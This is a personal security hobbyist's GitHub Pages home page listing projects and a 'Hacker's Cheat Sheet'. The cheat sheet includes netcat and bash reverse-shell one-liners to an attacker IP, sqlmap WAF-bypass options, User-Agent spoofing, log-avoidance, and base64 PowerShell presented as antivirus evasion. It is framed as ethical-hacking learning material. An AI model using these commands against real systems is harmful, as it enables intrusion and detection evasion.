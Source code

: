 ```yaml
---
layout: default
title: Home
---
```


# 🖥️ Welcome to WebPro's Hacker Space 🖥️

![Hacker Banner](https://user-images.githubusercontent.com/hacker-image.png)

Welcome to the dark side of the internet, where we explore cybersecurity, vulnerabilities, and cutting-edge technology.

---

## 🚀 Latest Projects 🚀

Here are some of the cool projects I’ve been working on:

- 🛠️ [HiddenSecTools](https://github.com/webpro255/HiddenSecTools) - A repository of hidden security tools.
- 🔍 [EventViewer-LogHunting](https://github.com/webpro255/EventViewer-LogHunting) - Hunt for security-relevant logs with Windows Event Viewer.
- 🛡️ [WordPress Forensics](https://github.com/webpro255/wordpress-forensics-tool) - Forensics tools specifically for WordPress investigations.
- 📊 [ELK-SOC-Tips](https://github.com/webpro255/ELK-SOC-Tips) - Tips and techniques for setting up an ELK stack in a SOC environment.
- 📡 [Network Traffic Visualization](https://github.com/webpro255/network-traffic-visualization) - Visualize network traffic in a clear and concise way.
- 🔧 [IT Support Scripts](https://github.com/webpro255/it-support-scripts) - A collection of useful scripts for IT support.
- 🔐 [IAM Policy Simulator](https://github.com/webpro255/iam-policy-simulator) - A project to simulate IAM policies for cloud security.
- 🔍 [Network Scanning Tools](https://github.com/webpro255/network-scanning-tools) - A collection of tools for network scanning and reconnaissance.
- 📈 [Network Anomaly Detection](https://github.com/webpro255/network-anomaly-detection) - Detect network anomalies using these tools and techniques.
---

## 👨‍💻 About Me 👨‍💻

I am WebPro, passionate about cybersecurity, ethical hacking, and building tools to create a more secure future. I love experimenting with new technologies, finding vulnerabilities, and sharing my knowledge with the community.

---
## 🕵️ Cybersecurity Challenge 🕵️

Want to test your skills? Try to crack the password in our **[Password Cracker Game](./cyber-game.html)** and see how quickly you can break in!

## 🎮 Play another Game 🎮

Feeling like taking a break? Try your hand at the **[Guess the Number Game](./game.html)** and see if you can guess the correct number!

---
## 🧠 Hacker's Cheat Sheet 🧠

Only true hackers will appreciate these gems—cutting-edge tips and tricks that can elevate your penetration testing and ethical hacking skills. 

### 🔥 1. Command Line Kung Fu

- **List all open ports** (with process info) on Linux:
  ```bash
  sudo netstat -tuln -p
  ```
Quickly see what's open on your system without needing fancy tools.

- Find all hidden files on a Linux machine:
  ```
  find / -name ".*" -type f
  ```
Great for uncovering hidden configurations or malicious scripts.

- Fast directory scanning with FFUF:
  ```
  ffuf -w /path/to/wordlist.txt -u https://example.com/FUZZ -e .php,.html,.txt -o output.txt

  ```
Quick and powerful fuzzing to discover hidden directories.
### 🚀 2. Hidden Gems in Wireshark

- Capture only HTTP GET requests:
```
http.request.method == "GET"
```
Skip the noise and capture just the GET requests to hunt for interesting activity.

- Filter for suspicious DNS activity:
  ```
  dns.qry.name == "evil.com"
  ```
Target specific DNS queries to detect if someone's reaching out to malicious domains.
### 🔒 3. Bypass Techniques
- Bypass WAF using SQLMap with tamper scripts:
```
sqlmap -u "http://example.com/vuln.php?id=1" --tamper=space2comment --level=5 --risk=3
```
Get around pesky WAFs with a tamper script and crank up the aggression.

- Custom User-Agent to fool detection systems:
```
curl -A "Googlebot/2.1 (+http://www.google.com/bot.html)" http://target.com

```
Impersonate a search engine crawler to bypass access restrictions.
### 🛡️ 4. Advanced Reverse Shells
- Obfuscated Netcat reverse shell:
```
mkfifo /tmp/lolpipe; nc <attacker IP> <port> 0</tmp/lolpipe | /bin/sh >/tmp/lolpipe 2>&1; rm /tmp/lolpipe
```
Use named pipes to create stealthier reverse shells, harder to detect by basic monitoring.

- Bash TCP reverse shell (for when Netcat isn’t available):
```
bash -i >& /dev/tcp/<attacker IP>/<port> 0>&1
```
Minimal footprint, effective on many Unix-based systems.
### 💻 5. Stealth Techniques
- Avoid logging by executing commands in memory (Linux):
```
exec /bin/bash 0</dev/null 2>/dev/null
```
Run commands in a way that avoids leaving traces in `/var/log` files.

- Evade AV detection with PowerShell base64 encoding:
  ```
  powershell.exe -EncodedCommand <Base64 Encoded Command>
  ```
Hide your PowerShell commands by encoding them in Base64, bypassing some AV detection.
### 🛠️ 6. Tools You Might Not Know (But Should)
- ([Obsidian]https://obsidian.md/)– A tool for creating encrypted vaults of notes and penetration testing playbooks
- ([Chaos Reader]http://chaosreader.sourceforge.net/) – Parse, analyze, and extract files from packet capture (.pcap) files.
- ([LinEnum]https://github.com/rebootuser/LinEnum)– A Linux enumeration script to quickly find privilege escalation vectors.
### 🎯 7. Fuzzing on Steroids
- Fuzzing APIs with POST requests using FFUF:
  ```
  ffuf -w wordlist.txt -X POST -d "parameter1=value&FUZZ=value" -u https://target.com/api/endpoint -o output.json
  ```
Quickly find API vulnerabilities by fuzzing POST request bodies.

- Fuzzing JSON APIs with AFL (American Fuzzy Lop):
  ```
  afl-fuzz -i input/ -o output/ -- ./target_binary @@
  ```
Use AFL to find memory corruption issues in JSON parsers, or other binary targets.
💡 **Bonus Tip**: Always remember to document your findings in detail. Hacking without reporting is just half the work. 😉
  

## 🤝 Connect with Me 🤝

Follow me on [GitHub](https://github.com/webpro255) for the latest updates, tools, and resources!

